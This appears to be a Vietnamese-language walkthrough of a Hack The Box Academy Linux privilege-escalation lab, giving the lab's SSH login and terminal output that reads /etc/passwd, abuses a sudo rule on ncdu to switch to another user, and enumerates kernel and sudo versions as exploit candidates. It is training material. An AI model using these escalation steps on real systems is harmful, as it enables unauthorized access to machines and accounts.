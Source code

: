 # Environment Enumeration

#### Questions
 SSH to 10.129.36.91 (ACADEMY-LLPE-SUDO) with user "htb-student" and password "HTB_@cademy_stdnt!"

+ 0  Enumerate the Linux environment and look for interesting files that might contain sensitive data. Submit the flag as the answer.

Chúng ta có thể chạy `/bin/ncdu` với người dùng khác ngoại trừ root.

![](1.png)

Tại GTFObins, có thể dễ dàng leo thang đặc quyền.

![](2.png)

Chúng ta có thể di chuyển sang người dùng khác.

```zsh
$ cat /etc/passwd | grep -v nologin
root:x:0:0:root:/root:/bin/bash
sync:x:4:65534:sync:/bin:/bin/sync
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
pollinate:x:110:1::/var/cache/pollinate:/bin/false
lab_adm:x:1000:1000:lab_adm:/home/lab_adm:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
htb-student:x:1001:1001::/home/htb-student:/bin/sh

$ sudo -u#1000 /bin/ncdu
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

bash: /home/htb-student/.bashrc: Permission denied
lab_adm@ubuntu:/home/lab_adm$ 
```

Dù người dùng `lab_admin` nằm trong nhóm `sudo` nhưng chúng ta không biết mật khẩu, ngoài ra phiên bản sudo có thể bị khai thác.

```zsh
lab_adm@ubuntu:/home/lab_adm$ uname -a
Linux ubuntu 5.4.0-148-generic #165-Ubuntu SMP Tue Apr 18 08:53:12 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
lab_adm@ubuntu:/home/lab_adm$ id
uid=1000(lab_adm) gid=1000(lab_adm) groups=1000(lab_adm),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd)


lab_adm@ubuntu:/home/lab_adm$ sudo --version
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
```
